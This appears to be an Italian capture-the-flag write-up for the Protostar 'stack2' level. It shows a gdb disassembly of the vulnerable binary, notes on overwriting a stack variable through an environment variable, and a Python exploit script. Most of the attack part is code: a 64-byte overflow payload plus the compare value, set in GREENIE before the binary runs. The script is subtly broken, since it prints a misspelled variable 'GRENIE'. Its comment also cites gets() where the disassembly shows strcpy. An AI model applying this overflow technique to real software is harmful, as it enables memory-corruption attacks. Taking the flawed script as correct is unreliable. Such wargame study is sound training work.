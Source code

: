 ````
proto@b92cf65f7998:/opt/protostar/bin$ gdb -q                                                      
(gdb) file stack2
Reading symbols from stack2...done.
(gdb) disass main
Dump of assembler code for function main:
   0x08048494 <+0>:	push   %ebp
   0x08048495 <+1>:	mov    %esp,%ebp
   0x08048497 <+3>:	and    $0xfffffff0,%esp
   0x0804849a <+6>:	sub    $0x60,%esp
   0x0804849d <+9>:	movl   $0x80485e0,(%esp)
   0x080484a4 <+16>:	call   0x804837c <getenv@plt>
   0x080484a9 <+21>:	mov    %eax,0x5c(%esp)
   0x080484ad <+25>:	cmpl   $0x0,0x5c(%esp)
   0x080484b2 <+30>:	jne    0x80484c8 <main+52>
   0x080484b4 <+32>:	movl   $0x80485e8,0x4(%esp)
   0x080484bc <+40>:	movl   $0x1,(%esp)
   0x080484c3 <+47>:	call   0x80483bc <errx@plt>
   0x080484c8 <+52>:	movl   $0x0,0x58(%esp)
   0x080484d0 <+60>:	mov    0x5c(%esp),%eax
   0x080484d4 <+64>:	mov    %eax,0x4(%esp)
   0x080484d8 <+68>:	lea    0x18(%esp),%eax
   0x080484dc <+72>:	mov    %eax,(%esp)
   0x080484df <+75>:	call   0x804839c <strcpy@plt>
   0x080484e4 <+80>:	mov    0x58(%esp),%eax
   0x080484e8 <+84>:	cmp    $0xd0a0d0a,%eax
   0x080484ed <+89>:	jne    0x80484fd <main+105>
   0x080484ef <+91>:	movl   $0x8048618,(%esp)
   0x080484f6 <+98>:	call   0x80483cc <puts@plt>
   0x080484fb <+103>:	jmp    0x8048512 <main+126>
   0x080484fd <+105>:	mov    0x58(%esp),%edx
   0x08048501 <+109>:	mov    $0x8048641,%eax
   0x08048506 <+114>:	mov    %edx,0x4(%esp)
   0x0804850a <+118>:	mov    %eax,(%esp)
   0x0804850d <+121>:	call   0x80483ac <printf@plt>
   0x08048512 <+126>:	leave  
   0x08048513 <+127>:	ret    
End of assembler dump.
````
Come in #stack1 abbiamo una compare
0x080484e8 <+84>:	cmp    $0xd0a0d0a,%eax
qua l'idea è di cambiare la variabile di ambiente per permettere che dentro ad essa ci sia il nostro payload di attacco.
La difficoltà è che 0xd0a0d0a rappresenta dei caratteri non stampabili, quindi c'è da trovare una soluzione differente.
L'idea è quella in primis con uno script python di settare la variabile di ambiente a nostro piacimento.
Questo è stato il mio riferimento
https://stackoverflow.com/questions/44479826/how-do-you-set-a-string-of-bytes-from-an-environment-variable-in-python
scrivere i byte diretti nella variabile di ambiente per poi passare i byte per pownare la macchina.

(gdb) display /4wx *(int*)$esp <- guarda cosa punta esp
(gdb) b *0x080484a4    <- breakpoint ad una istruzione

**exploit.py**
```` python
import os

junk = '\x41'                 # Junk to overflow the buffer (gets())
cmp = '\x0a\x0d\x0a\x0d'      # Value to pass the cmp instruction

# Prepare the env variable
os.environ["GREENIE"] = junk * 64 + cmp
print(os.environ["GRENIE"])

# Execute the binary inside this env
os.system("./stack2")
````
